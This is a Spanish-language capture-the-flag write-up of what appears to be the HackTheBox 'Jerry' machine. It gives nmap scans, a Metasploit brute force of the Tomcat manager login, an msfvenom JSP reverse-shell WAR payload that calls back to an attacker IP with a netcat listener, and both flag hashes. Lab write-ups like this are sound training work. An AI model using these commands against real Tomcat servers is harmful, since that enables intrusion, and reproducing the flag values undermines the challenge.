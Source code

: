 
![[ 20250706131558.png]](jerry-images/20250706131558.png)
# NMAP

Realizamos un escaneo básico de nmap para ver los puertos abiertos

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.30 -oN scanner
```

![[ 20250706125044.png]](jerry-images/20250706125044.png)

una vez identificados los puertos abiertos vamos a realizar un escáner con scripts básicos para ver servicios y versiones

```bash
nmap -p8080 -sCV 10.129.197.30 -oN targeted
```

![[ 20250706125221.png]](jerry-images/20250706125221.png)

# Puerto 8080

entramos en la pagina web para ver que encontramos

![[ 20250706125423.png]](jerry-images/20250706125423.png)

despues de explorarla un poco vemos que en la parte de `manager app` aparece una solicitud de credenciales

![[ 20250706125702.png]](jerry-images/20250706125702.png)

## metasploit

abrimos metasploit

```bash
msfdb run
```


utilizamos el payload

```bash
use auxiliary/scanner/http/tomcat_mgr_login
```

![[ 20250706125927.png]](jerry-images/20250706125927.png)

cambiamos el RHOTS 

```bash
set RHOSTS 10.129.197.30
```

cambiamos el USERNAME

```bash
set USERNAME tomcat
```

y lanzamos el exploit

```bash
run
```

![[ 20250706130135.png]](jerry-images/20250706130135.png)

vemos el usuario y contraseña tomcat:s3cret

al ingresarlo en la pagina web accedemos al menú de manager 

![[ 20250706130238.png]](jerry-images/20250706130238.png)

en este manu vemos que podemos subir un archivo .war

## msfvenom

asi que creamos un payload malicioso

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.155 LPORT=1234 -f war >> pwned.war
```

subimos el payload con la shell en la pagina web

![[ 20250706130648.png]](jerry-images/20250706130648.png)

pulsamos deploy 

![[ 20250706130727.png]](jerry-images/20250706130727.png)

y vemos un mensaje que indica que el archivo se subió correctamente 

# Abuso de payload

nos ponemos en escucha en el puerto indicado en mi caso el 1234

```bash
nc -nlvp 1234
```

y en la url ponemos 

```bash
<IP VICTIMA>:8080/NOMBRE_PAYLAOD
```

```bash
10.129.197.30:8080/pwned
```

la pagina web quedara en blanco y por la terminal en escucha vemos lo siguiente

![[ 20250706131056.png]](jerry-images/20250706131056.png)

se ha estabecido conexion con la maquina victima 

![[ 20250706131117.png]](jerry-images/20250706131117.png)

y tenemos usuario system = administrador 

# flags

explorando el sistema llegamos al directorio `C:\Users\Administrator\Desktop\flags` donde encontramos un archivo con nombre `2 for the price of 1.txt`

utilizamos type para ver el archivo (dato importante como es un sistema windows y el nombre del archivo tiene espacios debemos ponerlo entre comillas "nombre de archivo" para que el sistema lo detecte)

![[ 20250706131329.png]](jerry-images/20250706131329.png)

y tenemos ambas flags

user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
